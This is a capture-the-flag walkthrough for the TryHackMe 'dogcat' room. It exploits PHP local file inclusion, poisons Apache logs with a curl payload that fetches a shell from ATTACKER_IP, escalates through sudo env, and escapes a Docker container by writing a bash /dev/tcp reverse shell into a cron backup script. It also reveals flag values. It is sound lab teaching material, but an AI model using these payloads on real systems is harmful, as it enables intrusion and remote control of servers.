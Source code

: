 # [dogcat](https://tryhackme.com/room/dogcat)

## I made a website where you can look at pictures of dogs and/or cats! Exploit a PHP application via LFI and break out of a docker container.

---

### What is flag 1?

_There's more to *view* than just cats and dogs..._

1. Perform directory enumeration to discover hidden files and directories on the web server

```bash
gobuster dir -u http://IP -w /root/Tools/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,txt,php,js
```

[SCREEN01]

2. The `http://IP/?view=php://filter/convert.base64-encode/resource=cat/../flag` url returns `PD9waHAKJGZsYWdfMSA9ICJUSE17VGgxc18xc19OMHRfNF9DYXRkb2dfYWI2N2VkZmF9Igo/Pgo=` which is Base64 encoded flag:

[SCREEN02]

[SCREEN03]

---

### What is flag 2?

1. Access the index.php file in `http://IP/?view=php://filter/convert.base64-encode/resource=cat/../index` to understand the application structure

2. Access Apache access logs in `http://IP/?view=cat/../../../../../var/log/apache2/access.log&ext=` for log poisoning

3. Execute reverse shell through log poisoning attack
   - Create netcat listener on attacking machine
   - Create Python HTTP server to serve the PHP reverse shell
   - Create [php reverse shell file](https://github.com/mosec0/Reverse-Shell/blob/main/reverse-shell.php)
   - Inject PHP code into logs via User-Agent header. The curl command might need to be executed twice
   - Navigate to `http://IP/shell.php` to execute the reverse shell

```bash
nc -lvnp 4444
```

```bash
python -m SimpleHTTPServer
```

```bash
curl -A "<?php file_put_contents('shell.php', file_get_contents('http://ATTACKER_IP:8000/shell.php')); ?>" "http://TARGET_IP?view=/cat/../../../../var/log/apache2/access.log&ext"
```

4. With reverse shell executed, locate the second flag

```bash
find / -type f -name "*flag2*" 2>/dev/null
cat /var/www/flag2_QMW7JvaY2LvK.txt
```

[SCREEN04]

---

### What is flag 3?

1. Upgrade shell, check for sudo privileges, and escalate to root

```bash
script /dev/null -c bash
sudo -l
sudo /usr/bin/env /bin/bash
```

[SCREEN05]

2. Find the third flag with root privileges

```bash
find / -type f -name "*flag3*" 2>/dev/null
cat /root/flag3.txt
```

[SCREEN06]

---

### What is flag 4?

1. Investigate backup scripts that may be executed automatically

```bash
ls -la /opt/backups
cat /opt/backups/backup.sh
```

[SCREEN07]

2. Set up listener and modify backup script for container escape

```bash
nv -lvnp 5555
```

```bash
cd /opt/backups
printf '#!/bin/bash\nbash -i >& /dev/tcp/ATTACKER_IP/5555 0>&1' > backup.sh
```

[SCREEN08]

3. Wait for the automated execution and retrieve the fourth flag

```bash
cat flag4.txt
```

[SCREEN09]
